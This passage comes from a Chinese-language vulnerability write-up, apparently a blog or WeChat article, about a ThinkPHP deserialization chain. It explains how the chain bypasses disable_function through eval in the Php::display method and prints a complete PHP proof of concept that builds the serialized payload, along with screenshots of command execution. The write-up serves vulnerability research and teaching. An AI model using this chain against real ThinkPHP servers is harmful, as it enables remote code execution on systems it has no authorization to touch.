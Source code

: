 运行结果如下:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn7JTcZbMPQ80CLlmVh9UKRUdzQ8h0dVUR7aC3p19dick6KmGXGofI1LcjwvQChFkDoGVZQgMolcE7g/640?wx_fmt=png&from=appmsg "")  
  
成功执行whoami  
命令.  
### 远程代码执行  
  
在上面的链路中我们看到, 最终是使用的system  
这个函数进行代码执行的, 但是如果存在disable_function  
的限制如何绕过呢？  
  
我们可以全局搜索eval  
, 结果如下:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn7JTcZbMPQ80CLlmVh9UKRUXhdfrR8zzpH6H5eB0dmTQWFbicZXpnHRoziaaLBHUnd2nYZWlZzCSs7g/640?wx_fmt=png&from=appmsg "")  
  
在Php::display  
方法中, 刚好接收两个参数, 满足我们当前的条件, 而根据php的特性: [对象,方法名](参数值...)  
同样可以进行调用某个对象的某个方法. 所以这里可以利用eval  
绕过disable_function  
的限制.  
#### POC 编写 & 漏洞验证  
  
最终编写如下POC  
, 来延长链:  
```
<?php

namespace {
    $GLOBALS['EVAL_DATA'] = '?><?=phpinfo();?>'; // 放置代码执行语句    $obj = new think\route\ResourceRegister();    echo urlencode(serialize($obj));}namespace think\view\driver {    class Php {}}namespace think\model {    class Pivot {        protected $jsonAssoc = true;        protected $visible = ['a' => ['payload' => 'payload']];        protected $data = ['a' => ['payload' => 'payload']];        protected $withAttr = ['a' => ['payload' => ['obj','display']], 'b' => 'a'];        protected $json = ['a' => ['payload' => ['obj','display']], 'b' => 'a'];        public function __construct(){            $this -> withAttr['a']['payload'][0] = new \think\view\driver\Php();            $this -> json['a']['payload'][0] = new \think\view\driver\Php();            $this -> visible['a']['payload'] = $GLOBALS['EVAL_DATA'];            $this -> data['a']['payload'] = $GLOBALS['EVAL_DATA'];        }    }    class Relation {        protected $parent; // 某对象        protected $localKey; // 某 isset 方法        protected $query = '1';        public function __construct()        {            $this -> localKey = new Pivot();            $this -> parent = new Pivot();        }    }}namespace think\model\relation {    class HasMany extends \think\model\Relation {    }}namespace think\route {    class ResourceRegister {        protected $resource;                public function __construct(){            $this -> resource = new \think\model\relation\HasMany();        }    }}
```  
  
最终运行结果:  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/tiaKRx8m4Wn7JTcZbMPQ80CLlmVh9UKRUBNS3ibuhDcyibEI7LfL9qt6gibLuPpiaDib7iaQFTy6M08wOWKvNabib0bG9Q/640?wx_fmt=png&from=appmsg "")  
## Ending...  
  
  
  
